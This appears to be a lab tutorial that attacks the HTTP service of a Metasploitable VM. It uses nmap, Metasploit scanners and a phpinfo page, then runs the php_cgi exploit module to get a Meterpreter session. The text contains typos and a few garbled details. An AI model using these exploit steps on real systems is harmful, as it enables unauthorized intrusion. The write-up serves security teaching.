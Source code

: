 # Understanding HTTP Security: A Practical Guide

## Introduction to Port 80 Vulnerabilities

This guide demonstrates how to identify and understand vulnerabilities in HTTP services running on Port 80. This knowledge is essential for system administrators and security professionals to better protect their systems.

## Why Focus on Port 80?

HTTP (Hypertext Transfer Protocol) running on Port 80 is a fundamental protocol for web services. We focus on it because:

* It's commonly used for web traffic
* It transmits data in plaintext, making it easier to analyze
* Many legacy systems still use HTTP instead of HTTPS
* It's often a starting point for security assessments

## Required Tools

1. Metasploitable - A purposely vulnerable virtual machine for security testing
3. Kali Linux - Security-focused Linux distribution containing:
   * Nmap - Network scanning and reconnaissance tool
   * Metasploit Framework (MSF)
4. Web browser - For verifying findings

## Technical Breakdown

### Step 1: Initial Reconnaissance with Nmap

Command used: `nmap -sV [IP] -p80`

![Initial Nmap Scan Results](base_nmap_scan.png)

Let's break down this command:
* `-sV`: Performs version detection of services
* `-p80`: Specifically targets port 80
* This scan identifies:
   * Running web server software
   * Version information
   * Operating system details

### Step 2: Service Enumeration
1. Launch Metasploit Framework
`msfconsole`

2. Search for HTTP information gathering module
`search http_version`
![HTTP Version](http.png)

4. Select the HTTP version scanner
`use auxiliary/scanner/http/http_version`

5. View available options
`show options`

6. Set your target IP
`set RHOSTS [TARGET_IP]`

7. Execute the scan
`run`
![RHOSTS Output](rhosts.png)

**Note: Run the scan to gather detailed information about what services and applications are running on this port. This reconnaissance step will help identify the specific technologies and versions being used by the target web server. Once we have this information, we can better understand what potential vulnerabilities or misconfigurations might exist and determine our next steps for enumeration.**

### Step 2a: Understand the Information Given
The codeblock that was returned to us provides a lot of information in one single line. Every single one of the returned components is important. In some way, they are all succeptible to manipulation and exploitation. I will provide a better breakdown of how. 

**Apache/2.28** - This is the Apache web server software, version 2.28
  * Web server vulnerabilities like remote code execution
    
**(Ubuntu)** - The server is running on Ubuntu Linux distribution
  * OS-level vulnerabilities (kernel exploits, privilege escalation)
    
**DAV/2** - WebDAV (Web Distributed Authoring and Versioning) version 2 is enabled, which allows file management over HTTP
  * File manipulation vulnerabilities, directory traversal
    
**Powered by PHP/5.2.4-2 ubuntu5.10*** - The server is running PHP version 5.2.4-2, specifically the Ubuntu package version 5.10
  * Most critical due to age: Remote code execution, SQL injection, File inclusion vulnerabilities, Memory corruption issues

**Out of all these options - the PHP one seems the most attractive. It extremely only (15 years) and has multiple access points. There is also a lot of open source information that we can find online to help us accomplish this.**


### Step 3: Directory Structure Analysis
The next thing that we are going to do is ensure that PHP is running an possibly see some of the other protocols running on out Port 80 (HTTP).


A directory scanner (dir_scanner) actively probes for hidden directories and files on a web server, while HTTP version detection just identifies server software versions. Here's the reformatted command sequence:

1. Launch Metasploit Framework `msfconsole`

2. Search for directory scanning module `search dir_scanner`

3. View scanner options `show options`

4. Configure target `set RHOSTS [IP]`

5. Execute scan `run`
   ![Dir_Scanner Output](dir_scanner_output.png)

### Step 4: Clarify Objective
We want access to the backend of the HTTP server. Here is the visualization of the front-end.
![Metaploitable HTTP](http_homepage.png)
![PHP Admin Login](php_admin.png)


### Step 5: Exploit :)

1. The most straighforward way to get more information is to search for an admin login page that may be explosed becuase developers left it open. there are a couple of naming conventions that this could falll under.
  * [IP or WebAddress]/info.php or [IP or WebAddress]/phpinfo.php

    These are the results: ![PHP Admin Page](PHPinfo.png)

2. Out of all the sections here, one stands out the most. The configuration file stands out the most because we may be able to gain access through it. After all, that's what it's intended for.
Let's load up Metasploitable and figure out how to find an exploit now.
  * Launch Metasploit Framework `msfconsole`
  * Find a Suitable Exploit `seach php_cgi`
    Bingo: ![PHP CGI Exploit Located](CGIInjection.png)
3. Let's load up and exploit.
  * `use 0`
  * `show options`
  * `set RHOSTS [IP]`
  * `exploit`
  * The Meterpreter session starting was an extremely good sign. Now we can pop a shell. But first let's verify we are in.

![Session Started with Exploit](Exploit.png)

Here you can see that we are a lower-level privileged user. There are also files available on the backend that we couldn't see at first when we went to the HTTP web page.
So we can consider this a success.

Next time we will unpack how to escalate our low-level privileges so that we can do more and fully own the system.
![Success](AccessGranted.png)
